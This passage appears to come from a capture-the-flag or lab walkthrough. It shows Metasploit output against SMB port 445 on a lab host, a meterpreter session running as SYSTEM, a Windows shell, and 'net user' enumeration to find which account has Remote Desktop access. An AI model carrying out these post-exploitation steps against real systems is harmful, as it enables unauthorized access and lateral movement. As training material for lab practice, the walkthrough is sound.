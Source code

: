 ~~~
[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
~~~

Now let's get a shell:

~~~
meterpreter > shell 
Process 1216 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\users\zachary\desktop>
~~~

List existing users:

~~~
C:\users\zachary\desktop>net user	
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Timmy                    
Zachary                  
The command completed with one or more errors.


C:\users\zachary\desktop>
~~~

Let's check if Timmy can access RDP:

~~~
C:\users\zachary\desktop>net user timmy
net user timmy
User name                    Timmy
Full Name                    Timmy
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/4/2020 9:52:07 PM
Password expires             Never
Password changeable          2/4/2020 9:52:07 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/15/2020 6:05:27 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users                
Global Group memberships     *None                 
The command completed successfully.


~~~